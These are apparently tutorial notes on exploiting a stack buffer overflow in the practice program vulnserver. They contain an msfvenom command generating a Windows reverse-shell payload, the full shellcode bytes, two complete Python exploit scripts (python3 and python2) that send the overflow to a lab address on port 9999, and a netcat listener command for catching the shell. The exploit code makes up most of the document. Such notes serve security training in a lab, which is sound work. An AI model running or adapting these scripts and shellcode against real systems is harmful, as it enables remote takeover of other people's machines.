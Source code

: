 - We'll use a tool called msfvenom to generate some shell code
- To generate the code type in the following command in kali terminal
	`msfvenom -p windows/shell_reverse_tcp LHOST=<kali ip> LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"` and hit enter.
	- -p for payload and set it for windows as we're attacking one
	- In these types of reverse shells we have the victim connect back to us
	- LHOST must provide kali ip
	- LPORT to set listening port
	- EXITFUNC makes our exploit a bit more stable
	- -f for filetype 
	- -a for architecture
	- -b for bad character, ie, the null byte
	- The code looks something like this 
	- Note - Do not copy the semicolon.
```"\xd9\xca\xba\x1c\x0e\x64\x45\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
	"\x52\x31\x50\x17\x83\xe8\xfc\x03\x4c\x1d\x86\xb0\x90\xc9\xc4"
	"\x3b\x68\x0a\xa9\xb2\x8d\x3b\xe9\xa1\xc6\x6c\xd9\xa2\x8a\x80"
	"\x92\xe7\x3e\x12\xd6\x2f\x31\x93\x5d\x16\x7c\x24\xcd\x6a\x1f"
	"\xa6\x0c\xbf\xff\x97\xde\xb2\xfe\xd0\x03\x3e\x52\x88\x48\xed"
	"\x42\xbd\x05\x2e\xe9\x8d\x88\x36\x0e\x45\xaa\x17\x81\xdd\xf5"
	"\xb7\x20\x31\x8e\xf1\x3a\x56\xab\x48\xb1\xac\x47\x4b\x13\xfd"
	"\xa8\xe0\x5a\x31\x5b\xf8\x9b\xf6\x84\x8f\xd5\x04\x38\x88\x22"
	"\x76\xe6\x1d\xb0\xd0\x6d\x85\x1c\xe0\xa2\x50\xd7\xee\x0f\x16"
	"\xbf\xf2\x8e\xfb\xb4\x0f\x1a\xfa\x1a\x86\x58\xd9\xbe\xc2\x3b"
	"\x40\xe7\xae\xea\x7d\xf7\x10\x52\xd8\x7c\xbc\x87\x51\xdf\xa9"
	"\x64\x58\xdf\x29\xe3\xeb\xac\x1b\xac\x47\x3a\x10\x25\x4e\xbd"
	"\x57\x1c\x36\x51\xa6\x9f\x47\x78\x6d\xcb\x17\x12\x44\x74\xfc"
	"\xe2\x69\xa1\x53\xb2\xc5\x1a\x14\x62\xa6\xca\xfc\x68\x29\x34"
	"\x1c\x93\xe3\x5d\xb7\x6e\x64\xa2\xe0\xe2\xf0\x4a\xf3\x02\xe8"
	"\xd6\x7a\xe4\x60\xf7\x2a\xbf\x1c\x6e\x77\x4b\xbc\x6f\xad\x36"
	"\xfe\xe4\x42\xc7\xb1\x0c\x2e\xdb\x26\xfd\x65\x81\xe1\x02\x50"
	"\xad\x6e\x90\x3f\x2d\xf8\x89\x97\x7a\xad\x7c\xee\xee\x43\x26"
	"\x58\x0c\x9e\xbe\xa3\x94\x45\x03\x2d\x15\x0b\x3f\x09\x05\xd5"
	"\xc0\x15\x71\x89\x96\xc3\x2f\x6f\x41\xa2\x99\x39\x3e\x6c\x4d"
	"\xbf\x0c\xaf\x0b\xc0\x58\x59\xf3\x71\x35\x1c\x0c\xbd\xd1\xa8"
	"\x75\xa3\x41\x56\xac\x67\x71\x1d\xec\xce\x1a\xf8\x65\x53\x47"
	"\xfb\x50\x90\x7e\x78\x50\x69\x85\x60\x11\x6c\xc1\x26\xca\x1c"
	"\x5a\xc3\xec\xb3\x5b\xc6"
```

- Open up fuzz2.py and add the copied payload enclosed in paranthesis into a variable named overflow and append it to shellcode as well. fuzz4.py finally looks something like this (python3 code):
```
#!/usr/bin/python3

import sys, socket

overflow = (
"\xd9\xca\xba\x1c\x0e\x64\x45\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x52\x31\x50\x17\x83\xe8\xfc\x03\x4c\x1d\x86\xb0\x90\xc9\xc4"
"\x3b\x68\x0a\xa9\xb2\x8d\x3b\xe9\xa1\xc6\x6c\xd9\xa2\x8a\x80"
"\x92\xe7\x3e\x12\xd6\x2f\x31\x93\x5d\x16\x7c\x24\xcd\x6a\x1f"
"\xa6\x0c\xbf\xff\x97\xde\xb2\xfe\xd0\x03\x3e\x52\x88\x48\xed"
"\x42\xbd\x05\x2e\xe9\x8d\x88\x36\x0e\x45\xaa\x17\x81\xdd\xf5"
"\xb7\x20\x31\x8e\xf1\x3a\x56\xab\x48\xb1\xac\x47\x4b\x13\xfd"
"\xa8\xe0\x5a\x31\x5b\xf8\x9b\xf6\x84\x8f\xd5\x04\x38\x88\x22"
"\x76\xe6\x1d\xb0\xd0\x6d\x85\x1c\xe0\xa2\x50\xd7\xee\x0f\x16"
"\xbf\xf2\x8e\xfb\xb4\x0f\x1a\xfa\x1a\x86\x58\xd9\xbe\xc2\x3b"
"\x40\xe7\xae\xea\x7d\xf7\x10\x52\xd8\x7c\xbc\x87\x51\xdf\xa9"
"\x64\x58\xdf\x29\xe3\xeb\xac\x1b\xac\x47\x3a\x10\x25\x4e\xbd"
"\x57\x1c\x36\x51\xa6\x9f\x47\x78\x6d\xcb\x17\x12\x44\x74\xfc"
"\xe2\x69\xa1\x53\xb2\xc5\x1a\x14\x62\xa6\xca\xfc\x68\x29\x34"
"\x1c\x93\xe3\x5d\xb7\x6e\x64\xa2\xe0\xe2\xf0\x4a\xf3\x02\xe8"
"\xd6\x7a\xe4\x60\xf7\x2a\xbf\x1c\x6e\x77\x4b\xbc\x6f\xad\x36"
"\xfe\xe4\x42\xc7\xb1\x0c\x2e\xdb\x26\xfd\x65\x81\xe1\x02\x50"
"\xad\x6e\x90\x3f\x2d\xf8\x89\x97\x7a\xad\x7c\xee\xee\x43\x26"
"\x58\x0c\x9e\xbe\xa3\x94\x45\x03\x2d\x15\x0b\x3f\x09\x05\xd5"
"\xc0\x15\x71\x89\x96\xc3\x2f\x6f\x41\xa2\x99\x39\x3e\x6c\x4d"
"\xbf\x0c\xaf\x0b\xc0\x58\x59\xf3\x71\x35\x1c\x0c\xbd\xd1\xa8"
"\x75\xa3\x41\x56\xac\x67\x71\x1d\xec\xce\x1a\xf8\x65\x53\x47"
"\xfb\x50\x90\x7e\x78\x50\x69\x85\x60\x11\x6c\xc1\x26\xca\x1c"
"\x5a\xc3\xec\xb3\x5b\xc6")

shellcode = "A"*2003  + "\xaf\x11\x50\x62" + "\x90"*32 + overflow


try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('172.18.176.193',9999))

		payload= "TRUN /.:/" + shellcode
        s.send((payload.encode()))
        s.close()

except:
        print ("error Connecing to server")
        sys.exit()
```

- If that doesn't work try (python2 code):
```
#!/usr/bin/python

import sys, socket

overflow = (
"\xd9\xca\xba\x1c\x0e\x64\x45\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x52\x31\x50\x17\x83\xe8\xfc\x03\x4c\x1d\x86\xb0\x90\xc9\xc4"
"\x3b\x68\x0a\xa9\xb2\x8d\x3b\xe9\xa1\xc6\x6c\xd9\xa2\x8a\x80"
"\x92\xe7\x3e\x12\xd6\x2f\x31\x93\x5d\x16\x7c\x24\xcd\x6a\x1f"
"\xa6\x0c\xbf\xff\x97\xde\xb2\xfe\xd0\x03\x3e\x52\x88\x48\xed"
"\x42\xbd\x05\x2e\xe9\x8d\x88\x36\x0e\x45\xaa\x17\x81\xdd\xf5"
"\xb7\x20\x31\x8e\xf1\x3a\x56\xab\x48\xb1\xac\x47\x4b\x13\xfd"
"\xa8\xe0\x5a\x31\x5b\xf8\x9b\xf6\x84\x8f\xd5\x04\x38\x88\x22"
"\x76\xe6\x1d\xb0\xd0\x6d\x85\x1c\xe0\xa2\x50\xd7\xee\x0f\x16"
"\xbf\xf2\x8e\xfb\xb4\x0f\x1a\xfa\x1a\x86\x58\xd9\xbe\xc2\x3b"
"\x40\xe7\xae\xea\x7d\xf7\x10\x52\xd8\x7c\xbc\x87\x51\xdf\xa9"
"\x64\x58\xdf\x29\xe3\xeb\xac\x1b\xac\x47\x3a\x10\x25\x4e\xbd"
"\x57\x1c\x36\x51\xa6\x9f\x47\x78\x6d\xcb\x17\x12\x44\x74\xfc"
"\xe2\x69\xa1\x53\xb2\xc5\x1a\x14\x62\xa6\xca\xfc\x68\x29\x34"
"\x1c\x93\xe3\x5d\xb7\x6e\x64\xa2\xe0\xe2\xf0\x4a\xf3\x02\xe8"
"\xd6\x7a\xe4\x60\xf7\x2a\xbf\x1c\x6e\x77\x4b\xbc\x6f\xad\x36"
"\xfe\xe4\x42\xc7\xb1\x0c\x2e\xdb\x26\xfd\x65\x81\xe1\x02\x50"
"\xad\x6e\x90\x3f\x2d\xf8\x89\x97\x7a\xad\x7c\xee\xee\x43\x26"
"\x58\x0c\x9e\xbe\xa3\x94\x45\x03\x2d\x15\x0b\x3f\x09\x05\xd5"
"\xc0\x15\x71\x89\x96\xc3\x2f\x6f\x41\xa2\x99\x39\x3e\x6c\x4d"
"\xbf\x0c\xaf\x0b\xc0\x58\x59\xf3\x71\x35\x1c\x0c\xbd\xd1\xa8"
"\x75\xa3\x41\x56\xac\x67\x71\x1d\xec\xce\x1a\xf8\x65\x53\x47"
"\xfb\x50\x90\x7e\x78\x50\x69\x85\x60\x11\x6c\xc1\x26\xca\x1c"
"\x5a\xc3\xec\xb3\x5b\xc6")

shellcode = "A"*2003  + "\xaf\x11\x50\x62" + "\x90"*32 + overflow


try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('172.18.178.72',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print "error Connecing to server"
        sys.exit()
```

- Now what's going to happen is we're going to submit the shellcode, in the variable shellcode 2003 bytes will get us to the EIP, when we get to the EIP we're going to hit this pointer address, ie, the JMP address which is a set of instructions we provide, and what we're providing is this overflow here, that is, our malicious code!.
- Now what we need to do before submitting our overflow is, insert something called no ops as you see - `"\x90" * 32`.
- no ops are padding essentially and they stand for no operation.
- We're adding a little bit of padding between this JMP command and this overflow shell and sometimes this might not work and we might not get command execution as something interfered here. Hence we add this padding just to be safe.
- On another terminal tab let's setup netcat to listen by typing `nc -nvlp 4444`
	- -n for ip address
	- -v for verbose
	- -l for listen or inbound connect
	- -p for port number
- Lastly what we need to do is to run vulnserver as administrator without immunity debugger.
- And finally fire off this script.
- And there you go! Our listening port establishes a connection to vulnserver and the machine is all ours.